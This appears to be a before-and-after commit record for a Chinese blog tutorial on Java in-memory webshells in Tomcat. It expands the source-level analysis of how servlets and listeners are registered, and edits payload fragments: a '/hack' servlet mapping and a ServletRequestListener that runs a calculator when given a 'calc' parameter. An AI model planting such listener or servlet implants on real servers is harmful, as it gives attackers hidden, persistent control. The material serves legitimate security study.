

Before and after one commit to Leeyangee/leeyangee.github.io, a Jekyll site: the page built from _posts/2024-05-16-Java内存马教程目录 - 长期更新.md, in a window 1280 px wide and 900 px high, scrolled down 9894 px. Shown: the whole window, without its empty margins (160-1119 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; some of the changed text lies outside the part shown.

Commit message:
Update 2024-05-16-Java内存马教程目录 - 长期更新.md

````diff
--- a/_posts/2024-05-16-Java内存马教程目录 - 长期更新.md
+++ b/_posts/2024-05-16-Java内存马教程目录 - 长期更新.md
@@ -42,9 +42,6 @@
 
 StandardContext(org.apache.catalina.core.StandardContext) 中关于 Filter 的重要参数和数据结构如下所示:
 
-
-
-
 1. FilterDefs: 存放 Filter 配置
 
     ```java
@@ -59,8 +56,6 @@
     private final ContextFilterMaps filterMaps = new ContextFilterMaps();
     ```
 
-
-
 Filter 中重要参数:
 
 1. FilterChain: 由多个包含 FilterConfig 组成的链式结构，其参数位置如下所示
@@ -126,6 +116,8 @@
     private int n;
 
     private void internalDoFilter(ServletRequest request, ServletResponse response) throws IOException, ServletException {
+        //pos 即为 FilterConfig 的遍历下标
+        //n 即为总的 FilterConfig 个数
         //若当前 pos 小于总 FilterConfig 个数
         if (this.pos < this.n) {
             //取新的 FilterConfig，然后 pos + 1
@@ -255,27 +247,32 @@
 ```
 
 filter型内存马的更加详细具体分析流程，笔者后续更新.
-也可自行下来于 doFilter 函数处打断点调试
+也可自行下来分析调试
 
 ## [](#header-31)1.1.2 servlet型内存马
 
 我们知道，Servlet的注册流程如下:
-首先调用 Tomcat.addServlet(Servlet)，观察 addServlet 函数源代码发现 addServlet 函数就是先 new ExistingStandardWrapper(Servlet)，该对象 后位于 Tomcat 主类中继承自 StandardWrapper，然后再 Wrapper.setName(ServletName)，而后再顺便 context.addChild(Wrapper)，最后返回一个 Wrapper 对象.
+首先调用 Tomcat.addServlet(Servlet)，观察 addServlet 函数源代码发现 addServlet 函数就是先 new ExistingStandardWrapper(Servlet). 然后再 StandardWrapper.setName(ServletName)，而后再顺便 StandardContext.addChild(StandardWrapper)，最后返回一个 StandardWrapper 对象.
+
+我们跟进 Tomcat.addServlet 看看到底干了啥
 
 ```java
 //源码分析
-public static Wrapper addServlet(Context ctx, String servletName, Servlet servlet) {
-    Wrapper sw = new ExistingStandardWrapper(servlet);
-    sw.setName(servletName);
-    ctx.addChild(sw);
-    return sw;
+public class Tomcat{
+    public static Wrapper addServlet(Context ctx, String servletName, Servlet servlet) {
+        Wrapper sw = new ExistingStandardWrapper(servlet);
+        sw.setName(servletName);
+        //跟进 addChild
+        ctx.addChild(sw);
+        return sw;
+    }
 }
 ```
 
+那么这个 StandardContext.addChild(Wrapper) 到底干了什么呢？
+我们接下来详细直接跟进 StandardContext.addChild 查看源码，发现该实现仅仅是判断了下是否为 jsp Servlet 而已: 若为 jsp Servlet 则在执行完毕 super.addChild(child) 后再 ServletMapping.
 
-
-那么这个 context.addChild(Wrapper) 到底干了什么呢？我们直接点开 StandardContext 源码查看，发现该实现主要判断了下是否为 jsp Servlet 而已，若为 jsp Servlet 即将其 addServletMappingDecoded 中.
-我们继续跟进 super.addChild
+那我们继续跟进 super.addChild
 
 ```java
 //源码分析
@@ -308,7 +305,7 @@
 }
 ```
 
-
+跟进到抽象类 org.apache.catalina.core.ContainerBase 后，其先调用 addChild 而后跟进调用 addChildInternal
 
 ```java
 //源码分析
@@ -359,9 +357,15 @@
 
 }
 ```
+如上所示，最终 child 被放入 this.children 中
+至此，对于 addChild 的分析路径暂时告一段落，在后续笔者再更新其他内容
 
-在 context.addChild(Wrapper) 后，直接调用 context.addServletMappingDecoded 进行Mapping注册
-对于 StandardContext.addServletMappingDecoded，其路径较为简单笔者不再过多赘述
+回归正题，在 StandardContext.addChild(Wrapper) 后，直接如下所示调用 StandardContext.addServletMappingDecoded 进行Mapping注册
+对于 StandardContext.addServletMappingDecoded，较为简单笔者不再过多赘述
+
+```java
+context.addServletMappingDecoded("/hack","hackServlet");
+```
 
 接下来直接写Payload，加载内存马后访问`http://127.0.0.1:8003/hello`出现Hacked字样
 
@@ -396,14 +400,82 @@
 
 ```
 
-Servlet 具体流程，笔者后续更新
+Servlet 更加详细具体流程，笔者后续更新
 
 ## [](#header-31)1.1.3 listener型内存马
 
-对于listener内存马，笔者在流程上不过多赘述
-只需要获取context以后再调用 org.apache.catalina.core.StandardContext.addApplicationEventListener(new ServletRequestListener(){}) 即可
+对于 listener 内存马，笔者在流程上简述就行了，以下以 ServletRequestListener 为例(简称为 listener)
 
-这里直接写Payload，以 ServletRequestListener 为例，加载内存马后访问`http://127.0.0.1:8003/*?calc=1`直接弹出计算器
+只需要获取 StandardContext 后再调用 StandardContext.addApplicationEventListener(new ServletRequestListener(){}) 即可
+
+而这个 addApplicationEventListener 到底干了什么呢？我们详细分析探究一下.
+直接跟进 addApplicationEventListener
+
+```java
+//源码分析
+public class StandardContext extends ContainerBase implements Context, NotificationEmitter {
+
+    private List<Object> applicationEventListenersList = new CopyOnWriteArrayList();
+
+    //applicationEventListenersList 的添加方法
+    public void addApplicationEventListener(Object listener) {
+        this.applicationEventListenersList.add(listener);
+    }
+
+    //applicationEventListenersList 的get方法
+    //跟进 getApplicationEventListeners
+    public Object[] getApplicationEventListeners() {
+        return this.applicationEventListenersList.toArray();
+    }
+
+}
+```
+
+如上所示，addApplicationEventListener 方法直接添加 listener 到 applicationEventListenersList 中，而 getApplicationEventListeners 方法则返回 applicationEventListenersList.
+我们继续跟进 getApplicationEventListeners，直接来到事件 Init 方法即 fireRequestInitEvent
+
+```java
+//源码分析
+public class StandardContext extends ContainerBase implements Context, NotificationEmitter {
+    //出现 request 时，启动 Request 初始化事件方法
+    public boolean fireRequestInitEvent(ServletRequest request) {
+        //获取 applicationEventListenersList，instances 即为 listeners
+        Object[] instances = this.getApplicationEventListeners();
+        //若存在 listeners 且 listeners 不为空
+        if (instances != null && instances.length > 0) {
+            //创建基于 ServletContext 和 request 的 ServletRequestEvent
+            ServletRequestEvent event = new ServletRequestEvent(this.getServletContext(), request);
+            Object[] var4 = instances;
+            // var5 变量即为 listeners 的长度
+            int var5 = instances.length;
+            //遍历所有 listener
+            for(int var6 = 0; var6 < var5; ++var6) {
+                //instance 为当前遍历到的 listener 实例
+                Object instance = var4[var6];
+                if (instance != null && instance instanceof ServletRequestListener) {
+                    //将 instance 转换为 listener 类型
+                    ServletRequestListener listener = (ServletRequestListener)instance;
+
+                    try {
+                        //调用 listener 的 requestInitialized 方法，并将刚刚创建的 ServletRequestEvent 传入
+                        listener.requestInitialized(event);
+                    } catch (Throwable var10) {
+                        ...[错误处理]...
+                    }
+                }
+            }
+        }
+
+        return true;
+    }
+}
+```
+
+如上所示，在触发 fireRequestInitEvent 后，其慢慢遍历 listeners 并根据相应条件调用 requestInitialized
+
+这里对于 listeners 的处理分析流程暂时告一段落，关于 listener 的其他流程和事件响应笔者后续再更新
+
+这里我们根据刚刚分析的 ServletRequestListener.requestInitialized 直接写Payload，加载内存马后访问`http://127.0.0.1:8003/*?calc=1`直接弹出计算器
 
 ```java
 //Payload
@@ -418,7 +490,7 @@
     public Hack1(Context context) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, NoSuchFieldException {
         ServletRequestListener requestListener = new ServletRequestListener() {
             @Override
-            public void requestDestroyed(ServletRequestEvent arg0) {
+            public void requestInitialized(ServletRequestEvent arg0) {
                 try {
                     String shell = arg0.getServletRequest().getParameter("calc");
                     if(shell != null && shell.equals("1")) {
@@ -430,7 +502,9 @@
             }
 
             @Override
-            public void requestInitialized(ServletRequestEvent arg0) {}
+            public void requestDestroyed(ServletRequestEvent arg0) {}
+
+
         };
         ((StandardContext)context).addApplicationEventListener(requestListener);
     }
@@ -438,6 +512,8 @@
 ```
 
 # [](#header-31)1.2 context获取方法
+
+在一些反序列化、类加载、jsp的场景，我们无法直接获取 request，需要通过其他方法获取 request
 
 ## [](#header-31)1.2.1 tomcat版本小于10.1.x webappclassloaderbase.getresources
 
````
Also changed, not shown: other parts of _posts/2024-05-16-Java内存马教程目录 - 长期更新.md (+5 -9 lines).
